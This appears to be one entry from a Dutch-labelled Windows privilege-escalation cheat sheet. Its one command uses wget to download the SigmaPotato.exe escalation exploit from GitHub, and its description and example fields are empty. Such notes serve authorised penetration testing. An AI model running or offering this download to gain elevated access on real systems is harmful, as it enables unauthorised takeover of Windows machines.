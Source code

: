 # 17. Windows Privilege Esc — Entry 60

## Categorie

Using exploits

## Commando

```
wget https://github.com/tylerdotrar/SigmaPotato/releases/download/v1.2.6/SigmaPotato.exe
```

## Omschrijving

Downloading SigmaPotato

## Voorbeeld

_(empty)_

## Opmerkingen

_(empty)_

